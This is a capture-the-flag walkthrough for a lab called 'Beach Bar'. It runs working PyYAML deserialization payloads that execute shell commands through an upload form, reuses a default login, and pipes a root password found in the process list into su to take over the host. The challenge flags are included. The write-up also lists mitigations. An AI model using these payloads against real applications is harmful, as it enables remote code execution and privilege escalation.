







# Walkthrough – Byte Lotus: Beach Bar

## Challenge Summary

The Beach Bar challenge presents a web application that allows users to upload YAML playlist files. The application uses Python's `yaml.load()` with the unsafe `Loader=yaml.Loader`, which permits arbitrary Python object instantiation and leads to Remote Code Execution (RCE). 

Through careful enumeration, a password reuse vulnerability was discovered: the jukebox service runs as root with a password visible in the process list, which is the same as the root password. This allows complete system compromise.

---

## Initial Access

### Step 1 - Login with Default Credentials

The application has a login page with hardcoded test credentials visible in the HTML source:

```html
<!-- staff note: the demo DJ login is still enabled for the soft opening.
     dj / dj  -- swap this before the season starts (ticket BAR-7) -->
```

**Credentials:**
- Username: `dj`
- Password: `dj`

After logging in, the dashboard reveals two main features:
- **Export**: Downloads a sample YAML playlist
- **Import**: Accepts YAML uploads or pasted content

>  


---

## Remote Code Execution via YAML Deserialization

### Step 2 - Confirm YAML Deserialization Vulnerability

The import functionality uses `yaml.load(content, Loader=yaml.Loader)` which is vulnerable to arbitrary code execution through Python object instantiation.

The first payload confirms RCE:

```yaml
!!python/object/apply:subprocess.check_output
- ["id"]
```

**Output:**
```
uid=1001(bartender) gid=1001(bartender) groups=1001(bartender)
```

This confirms the application is running as the **bartender** user.

> 

---

### Step 3 - Establish Command Execution Method

To execute more complex commands, use `/bin/sh -c`:

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","<command>"]
```

This provides a reliable method for executing arbitrary shell commands.

---

## Enumeration Phase

### Step 4 - Identify Working Directory

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","pwd"]
```

**Output:**
```
/opt/beach-bar/webapp
```

The web application resides in `/opt/beach-bar/webapp`.

> :

---

### Step 5 - List Application Files

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","ls -la /opt/beach-bar/"]
```

**Output:**
```
total 20
drwxr-xr-x 5 systemd-coredump ubuntu    4096 Jun 11 13:21 .
drwxr-xr-x 3 root             root      4096 Jun 11 10:49 ..
drwxr-xr-x 2 systemd-coredump ubuntu    4096 Jun 11 13:00 jukeboxd
drwxr-xr-x 5 root             root      4096 Jun 11 10:55 venv
drwxr-xr-x 4 bartender        bartender 4096 Jun 11 13:02 webapp
```

**Key Discovery:**
- `webapp/` - The Flask application (owned by bartender)
- `jukeboxd/` - A service directory containing `jukeboxd.py`
- `venv/` - Python virtual environment

> 


---

### Step 6 - Examine the Jukebox Service

The jukeboxd.py file appears to be a dummy service:

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","cat /opt/beach-bar/jukeboxd/jukeboxd.py"]
```

**Output:**
```python
#!/usr/bin/env python3

import argparse
import time

NOW_PLAYING = [
    "Khruangbin - Maria Tambien",
    "Men I Trust - Show Me How",
    "Crumb - Locket",
    "Mac DeMarco - Chamber of Reflection",
]

def main():
    parser = argparse.ArgumentParser(description="Beach Bar jukebox streamer")
    parser.add_argument("--stream-pass", required=True, help="stream backend password")
    parser.add_argument("--bitrate", default="320k")
    args = parser.parse_args()

    i = 0
    while True:
        track = NOW_PLAYING[i % len(NOW_PLAYING)]
        i += 1
        time.sleep(30)

if __name__ == "__main__":
    main()
```

This script doesn't actually do anything useful - it just loops through playlist entries.

> **Screenshot Placeholder**: jukeboxd.py content

---

### Step 7 - Find the User Flag

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","find /home -type f -name '*.txt' 2>/dev/null"]
```

**Output:**
```
/home/bartender/user.txt
```

Read the user flag:

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","cat /home/bartender/user.txt"]
```

**Output:**
```
THM{Y4ml_pl4yl1st_pwns_th3_b34ch}
```

**User Flag:** `THM{Y4ml_pl4yl1st_pwns_th3_b34ch}`

> 

---

## Privilege Escalation

### Step 8 - Identify Running Processes

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","ps aux | grep -v grep | grep -E 'root|bartender|jukebox'"]
```

**Key Discovery:**
```
root         606  0.0  0.2  20176 11708 ?        Ss   16:09   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
bartend+     708  0.0  0.7  44024 31248 ?        S    16:09   0:00 /opt/beach-bar/venv/bin/python3 /opt/beach-bar/venv/bin/gunicorn -w 2 -b 0.0.0.0:80 --user bartender --group bartender app:app
```

**Critical Finding:** The jukeboxd.py script runs as **root** and has the password `SunsetSpritz2024!` exposed in the command line!

> **Screenshot Placeholder**: Process list showing root process with password

---

### Step 9 - Test the Discovered Password

Check if the password works with `su`:

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","echo 'SunsetSpritz2024!' | su - root -c 'id' 2>&1"]
```

**Output:**
```
Password: uid=0(root) gid=0(root) groups=0(root)
```

**Success!** The password `SunsetSpritz2024!` is the root password.

> 

---

### Step 10 - Find the Root Flag

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","echo 'SunsetSpritz2024!' | su - root -c 'find /root -name \"*.txt\" 2>/dev/null' 2>&1"]
```

**Output:**
```
/root/root.txt
```

Read the root flag:

```yaml
!!python/object/apply:subprocess.check_output
- ["/bin/sh","-c","echo 'SunsetSpritz2024!' | su - root -c 'cat /root/root.txt 2>/dev/null' 2>&1"]
```

**Output:**
```
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
```

**Root Flag:** `THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}`

> 

---

## Attack Path Summary

```
1. Login with dj/dj credentials (found in HTML comment)
        ↓
2. Exploit YAML deserialization via import functionality
        ↓
3. RCE as bartender user
        ↓
4. Enumerate system and find jukeboxd.py running as root
        ↓
5. Discover password "SunsetSpritz2024!" in process arguments
        ↓
6. Use password with `su - root`
        ↓
7. Read /root/root.txt
        ↓
8. 🏆 Both flags obtained!
```

---

## Flags

| Flag | Value |
|------|-------|
| **User Flag** | `THM{Y4ml_pl4yl1st_pwns_th3_b34ch}` |
| **Root Flag** | `THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}` |

---

## Vulnerabilities Identified

1. **Hardcoded Test Credentials**: The `dj/dj` login was left enabled in production

2. **Insecure YAML Deserialization**: Using `yaml.load()` with `Loader=yaml.Loader` allows arbitrary Python code execution

3. **Password Exposure in Process List**: Root password visible in command-line arguments of running processes

4. **Password Reuse**: The same password used for the jukebox service is the root password

5. **Exposed Service Information**: `/opt/beach-bar/jukeboxd/jukeboxd.py` source code accessible

---

## Mitigation Recommendations

1. **Remove test credentials** before deployment

2. **Use `yaml.safe_load()`** instead of `yaml.load()` to prevent arbitrary object instantiation

3. **Never pass passwords as command-line arguments** - use environment variables or configuration files

4. **Implement proper password management** with unique passwords per service

5. **Restrict file permissions** on application source code

6. **Run services with least privilege** - jukeboxd doesn't need to run as root

7. **Implement proper input validation** and sanitization for file uploads

---

## Tools Used

- **Web Browser**: For accessing the application and executing payloads
- **YAML Payloads**: For exploiting the deserialization vulnerability
- **System Enumeration**: Standard Linux commands (ps, ls, find, cat, su)

---

## Conclusion

This challenge demonstrates the critical importance of secure coding practices, proper credential management, and principle of least privilege. A simple YAML deserialization vulnerability combined with password reuse led to complete system compromise, from a low-privileged web application user to full root access.

The password `SunsetSpritz2024!` being exposed in the process list was the key to privilege escalation - a reminder that secrets should never be passed as command-line arguments where they can be seen by any user with process listing permissions.

---

## References

- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [PyYAML Documentation - Security](https://pyyaml.org/wiki/PyYAMLDocumentation#yaml-load)
- [CWE-259: Use of Hard-coded Password](https://cwe.mitre.org/data/definitions/259.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)